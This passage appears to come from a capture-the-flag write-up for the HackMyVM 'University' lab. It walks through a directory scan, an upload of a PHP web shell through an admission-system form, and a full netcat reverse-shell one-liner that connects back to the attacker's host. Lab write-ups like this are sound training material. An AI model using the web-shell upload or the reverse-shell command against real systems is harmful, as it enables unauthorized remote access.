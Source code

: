 ```bash
301      GET        7l       11w      169c http://10.0.2.13/nbproject/private => http://10.0.2.13/nbproject/private/
301      GET        7l       11w      169c http://10.0.2.13/combo => http://10.0.2.13/combo/
[####################] - 2m    900117/900117  0s      found:45      errors:108    
[####################] - 2m     90000/90000   988/s   http://10.0.2.13/ 
[####################] - 2m     90000/90000   985/s   http://10.0.2.13/images/ 
[####################] - 2m     90000/90000   987/s   http://10.0.2.13/css/ 
[####################] - 2m     90000/90000   992/s   http://10.0.2.13/bootstrap/ 
[####################] - 2m     90000/90000   986/s   http://10.0.2.13/jquery/ 
[####################] - 2m     90000/90000   987/s   http://10.0.2.13/mail/ 
[####################] - 2m     90000/90000   989/s   http://10.0.2.13/jquery/images/ 
[####################] - 87s    90000/90000   1031/s  http://10.0.2.13/nbproject/ 
[####################] - 82s    90000/90000   1102/s  http://10.0.2.13/nbproject/private/ 
[####################] - 67s    90000/90000   1343/s  http://10.0.2.13/combo/      
```
While the scan was running, I noticed this URL: `http://10.0.2.13/documents.php`.
Let's find out what is shown here.

![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915142022.png){: width="700" height="400" }

It looks lik ewe can upload several type of files here.
![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915142631.png){: width="700" height="400" }

First I copy the file `shell.php` to my working direcotry for uploading. Next we should upload the file to the server.
![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915142158.png){: width="700" height="400" }

An error message is shown about a retry or to check in the path. I've no idea where the uploads are stored. So let's visit the GitHub website of Online Admission System.
![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915142556.png){: width="700" height="400" }

With a bit of help from the Github page we now know the structure of the web application. This helps us by finding the directory where our shell is stored. We can now navigate to our `shell.php` file so we can use it.
![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915142650.png){: width="700" height="400" }

To see if we can execute some OS command we could use the following command(s) `whoami;id;hostname;ip a;pwd` to see who we are and where we are working on.
![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915144224.png){: width="700" height="400" }

Since we can execute command via the webshell we should try to create a reverse shell. First we should start a netcat listener on our machine.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/University]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...

```
Now  we can launch a reverse shell with the following command via the website.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.2.15 1234 >/tmp/f
```
![image](/assets/img/WriteUp/HackMyVM/University/Pasted image 20230915144507.png){: width="700" height="400" }
